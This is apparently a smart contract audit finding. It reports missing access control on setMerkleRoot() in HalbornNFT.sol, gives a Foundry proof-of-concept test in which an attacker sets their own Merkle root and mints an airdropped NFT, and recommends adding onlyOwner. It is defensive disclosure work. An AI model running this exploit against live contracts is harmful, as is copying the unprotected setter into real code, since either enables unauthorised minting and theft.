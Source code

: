 ## Missing admin role management in `HalbornNFT.sol#setMerkleRoot()` function.

#### Vulnerability of Details

The `HalbornNFT.sol#setMerkleRoot()` function sets a Merkle Root to perform Merkle proof verification.
```solidity
    function setMerkleRoot(bytes32 merkleRoot_) public {
        merkleRoot = merkleRoot_;
    }
```
Based on the Merkle Root established here, the protocol gives Airdrops to permitted users by using `HalbornNFT.sol#mintAirdrops()`.

```solidity
    function mintAirdrops(uint256 id, bytes32[] calldata merkleProof) external {
        // require(_exists(id), "Token already minted");  <--- remove for testing as error occurred here

        bytes32 node = keccak256(abi.encodePacked(msg.sender, id));
        bool isValidProof = MerkleProofUpgradeable.verifyCalldata(
            merkleProof,
            merkleRoot,
            node
        );
        require(isValidProof, "Invalid proof.");

        _safeMint(msg.sender, id, "");
    }
```

However, as you can see, `HalbornNFT.sol#setMerkleRoot()` does not check whether the caller is the owner of the `HalbornNFT` contract.

As a result, the attacker can reset the contract's Merkle Root without any restrictions and receive the airdrop as desired.

#### Proof of Concept

- The attacker creates the root by specifying a `tokenId`.
- The attacker sets the contract's merkle root by calling `HalbornNFT.sol#setMerkleRoot()`.
- Then, the attacker receives the airdrop by providing the corresponding proof data to the `HalbornNFT.sol#mintAirdrops()` function.

```solidity
    function test_setMerkleProofWithoutPermission() public {
        address Attacker = makeAddr("Attacker");

        vm.startPrank(Attacker);
        bytes32[] memory data = new bytes32[](2);
        data[0] = keccak256(abi.encodePacked(Attacker, uint256(16)));
        data[1] = keccak256(abi.encodePacked(Attacker, uint256(19)));
        bytes32 root = m.getRoot(data);

        PROOF_1 = m.getProof(data, 0);
        PROOF_2 = m.getProof(data, 1);

        nft.setMerkleRoot(root);
        nft.mintAirdrops(uint256(16), PROOF_1);
        assertEq(nft.ownerOf(16), Attacker);
        vm.stopPrank();
    }
```

#### Recommendation
It is recommended to implement the admin role management
```solidity
--- function setMerkleRoot(bytes32 merkleRoot_) public {
+++ function setMerkleRoot(bytes32 merkleRoot_) public onlyOwner {
        merkleRoot = merkleRoot_;
    }
```
